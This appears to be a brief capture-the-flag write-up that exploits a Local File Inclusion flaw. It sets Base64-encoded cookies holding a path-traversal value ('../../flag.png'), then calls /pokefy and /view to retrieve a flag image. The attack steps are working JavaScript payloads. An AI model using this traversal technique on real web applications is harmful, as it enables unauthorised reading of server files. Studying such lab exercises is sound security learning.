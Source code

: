 To exploit the Local File Inclusion (LFI) vulnerability in the web app:

    Set cookies for name and url using Base64 encoding:

    javascript

document.cookie = `name=${btoa('flag')}; path=/`;
document.cookie = `url=${btoa('../../flag.png')}; path=/`;

Send a POST request to /pokefy to trigger the vulnerability:

js

fetch('/pokefy', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
    }
});

Access /view to retrieve and view flag.png, which should contain the flag.